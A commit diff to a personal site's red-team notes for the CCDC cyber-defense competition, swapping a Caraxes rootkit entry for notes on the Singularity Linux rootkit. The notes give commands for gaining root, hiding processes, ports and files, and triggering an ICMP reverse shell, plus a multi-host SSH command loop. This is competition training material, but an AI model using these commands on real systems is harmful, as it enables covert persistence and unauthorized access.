

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 900 px high, scrolled down 2530 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
updated notes, scripts

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -103,15 +103,16 @@
       - Can use `ssh_across_ips.py`
         - `ssh_across_ips.py 10.100.100-120.35 {username} {password} '{command}'`
       - `for i in {1..10}; do echo $i; done`
-- [Caraxes](https://github.com/ait-aecid/caraxes/tree/main)
-  - Good compatibility across distros as well
-    - Debian: `apt install -y gcc make linux-headers-$(uname -r)`
-    - RHEL: `yum install -y gcc make kernel-devel-$(uname -r)`
-  - Supports hiding files, backdoors, privescs
-    - Root with `kill -47 0`
-    - Hide process with `kill -48 {proc_id}`
-    - Hide module with `kill -49 0`
-    - Can be specified in `rootkit.h`
+- [Singularity](https://github.com/MatheuZSecurity/Singularity)
+  - Holy balls what a nice rootkit
+    - Supports hiding multiple names, has privesc, ICMP backdoor, hiding services
+      - Root with `MAGIC=mtz bash` or simply `kill -59 $$`
+      - Hide port by editing `modules/hiding_tcp.c` and adding a port to `is_hidden_port`
+      - Hide files containing `singularity`
+      - Hide process with `kill -59 <PID>`
+      - ICMP shell:
+        - Start listener on `8081`
+        - Then run `sudo python3 scripts/trigger.py {IP}` and wait for shell
 - [Reptile](https://web.archive.org/web/20250703011339/https://github.com/f0rb1dd3n/Reptile/archive/refs/heads/master.zip)
   - Absolutely nutty rootkit for 2.6.x, 3.x, or 4.x, seems to be the go-to
     - Has persistent, detection evasion, a nice management interface
```
Also changed, not shown: 2 other files.
